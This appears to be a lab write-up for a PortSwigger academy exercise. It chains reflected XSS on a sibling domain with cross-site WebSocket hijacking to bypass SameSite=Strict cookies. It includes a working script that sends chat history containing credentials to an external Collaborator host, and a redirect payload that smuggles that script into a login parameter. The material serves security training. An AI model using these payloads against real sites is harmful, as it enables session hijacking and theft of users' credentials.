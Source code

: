 # CSRF - SameSite Strict bypass via sibling domain

## 📌 Lab Details
- **Title**: SameSite Strict bypass via sibling domain
- **Difficulty**: Practitioner
- **Category**: Cross-site Request Forgery
- **Lab URL**: https://portswigger.net/academy/labs/launch/44cca99334d60d91033bf4bd0908a142896514af0a3c0c343f8017fe71781ae9?referrer=%2fweb-security%2fcsrf%2fbypassing-samesite-restrictions%2flab-samesite-strict-bypass-via-sibling-domain

## 🔍 Summary
This lab demonstrates a **cross-site WebSocket hijacking (CSWSH)** vulnerability, which helps in bypassing the `SameSite=Strict` restriction.

## 🛠 Steps to Solve
1. Go to the live chat feature and send a few messages.
2. Study the **Webscocket** handshake request: `GET /chat`. Observe that this doesn't contains any unpredictable tokens, means might be vulnerable to **CSWSH**.
3. Study the **Websocket** history tab, the browser sends a `READY` message to the server, which causes the server to respond with the entire history.
4. Go to the **Collaborator** tab to copy a collaborator payload.
5. Inject this exploit into the exploit server:
   ```sh
   <script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
    </script>
    ```
6. On studying the **HTTP** requests, it shows that you have opened up a new connection, even though **CSWSH** vulnerability exists, the reason is the presence of `SameSite=Strict` restriction.
7. Study the **proxy** history to find a sibling domain: `cms-YOUR-LAB-ID.web-security-academy.net`.
8. Try injecting an **XSS** payload into this sibling domain: `<script>alert(1)</script>`.
9. Observe that the alert(1) is called, confirming that this is a viable reflected XSS vector.
10. Recreate the CSWSH script that you tested on the exploit server earlier.
11. URL encode the entire script.
12. Now, induce a `GET` request in the browser by delivering a exploit through the exploit server:
    ```sh
    <script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
    </script>
    ```
13. Deliver the exploit to the victim.
14. Now the `HTTP` history contains all the chat of the user.
15. Extract the **username** and **password** and log in to the lab to complete it.

## 📖 Key Takeaways
- `SameSite=Strict` restriction can be bypassed if the website contains both `CSRF` and `XSS` vulnerability.
-  A **sibling domain (cms-...)** under the same site is considered `"same-site"` by the browser, allowing cookies to be sent.
-  **WebSocket** connections inherit `cookies` when initiated from the same-site sibling domain, enabling hijacking of the chat session.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/18c9bf5a-c1dc-4883-91ad-811fb4a12c60)
![image](https://github.com/user-attachments/assets/81f3876a-dc06-442b-a079-0702c78a8fd5)
![image](https://github.com/user-attachments/assets/d50e10f5-e357-430d-9e77-335131c061be)
![image](https://github.com/user-attachments/assets/f01ede7e-669d-417d-9669-e2959252c41c)
![image](https://github.com/user-attachments/assets/a25a6083-9182-4ee3-b4c1-d17b9ee63ce8)
![image](https://github.com/user-attachments/assets/1852f2b4-acb4-48a3-82f5-85ed6cf456b5)
![image](https://github.com/user-attachments/assets/5eff66ee-2160-475d-802a-0d881b82ee4a)
![image](https://github.com/user-attachments/assets/2814fc4b-4e2a-4ce2-aba7-d0508bd6ded7)
![image](https://github.com/user-attachments/assets/4464a58d-ee3c-4db5-98e8-a1420f204ac1)
![image](https://github.com/user-attachments/assets/fd5f84f6-85a1-4963-9218-9f0b4b52ed8f)
![image](https://github.com/user-attachments/assets/e0a4263b-ef8d-424a-aaf2-fdcfa5c4d7f3)
![image](https://github.com/user-attachments/assets/e726d9ad-50a0-4187-a7c9-c2dab308d5ee)
![image](https://github.com/user-attachments/assets/fec018a5-4d13-47b4-9573-fcb75668b9c2)
![image](https://github.com/user-attachments/assets/1e7df3b8-d242-4477-b22f-8b51469f9a48)
